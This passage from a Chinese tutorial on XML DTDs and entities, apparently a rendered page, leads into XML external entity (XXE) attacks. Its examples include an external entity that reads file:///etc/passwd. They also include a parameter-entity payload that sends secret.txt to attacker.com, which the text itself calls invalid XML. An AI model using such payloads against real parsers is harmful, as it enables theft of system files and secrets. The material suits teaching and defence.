 > 		<title>大话西游</title>
> 		<actor>周星驰</actor>
> 		<actor>朱茵</actor>
> 	</movie>
> </movies>
> 
> # demo.dtd
> <?xml version="1.0" encoding="utf-8"?>
> <!ELEMENT movies (movie+)>
> <!ELEMENT movie (title,actor+,rating*)>
> <!ELEMENT title (#PCDATA)>
> <!ELEMENT actor (#PCDATA)>
> <!ELEMENT rating (#PCDATA)>
> ~~~



> DTD实体
> 实体是用于定义引用普通文本或特殊字符的快捷方式的变量。实体引用是对实体的引用。实体可在内部或外部进行声明。
>
> 按实体有无参分类，实体分为一般实体和参数实体
> 一般实体的声明：`<!ENTITY 实体名称 “实体内容">`，引用一般实体的方法：`&实体名称;`
> 普通实体可以在DTD中引用，可以在XML中引用，可以在声明前引用，还可以在实体声明内部引用。
>
> 参数实体的声明：`<!ENTITY % 实体名称 "实体内容">`,引用参数实体的方法：`%实体名称;`
> 经实验，参数实体只能在DTD中引用，不能在声明前引用，也不能在实体声明内部引用。DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。
>
> 按实体使用方式分类，实体分为内部声明实体和引用外部实体
> 内部实体:`<!ENTITY 实体名称 "实体的值">`
>
> ~~~xml
> <?xml version = "1.0" encoding = "utf-8"?>
> <!DOCTYPE test [ 
> <!ENTITY writer "Dawn">
> <!ENTITY copyright "Copyright W3School.com.cn"> ]>
> <test>&writer;©right;</test>
> ~~~
>
> 外部实体外部实体，用来引入外部资源。有SYSTEM和PUBLIC两个关键字，表示实体来自本地计算机还是公共计算机。
> `<!ENTITY 实体名称 SYSTEM "URI/URL">` 或者 `<!ENTITY 实体名称 PUBLIC "public_ID" "URI">`
>
> ~~~xml
> <?xml version = "1.0" encoding = "utf-8"?>
> <!DOCTYPE test [ 
> <!ENTITY file SYSTEM "file:///etc/passwd">
> <!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd"> ]>
> <author>&file;©right;</author>
> ~~~



> 例子：
>
> ~~~xml
> <?xml version="1.0"?>
> <!DOCTYPE XXE [
> <!ENTITY % passwd SYSTEM "secret.txt">
> <!ENTITY % wapper "
> <!ENTITY send SYSTEM 'http://attacker.com/?%passwd;'"> 
> %wapper;
> ]>
> <items>&wapper;</items>
> ~~~
>
> `以上语法是不符合XML语法规范的原因如下：`
> ``在DTD内部子集中的参数实体调用不能混掺到标记语言中，``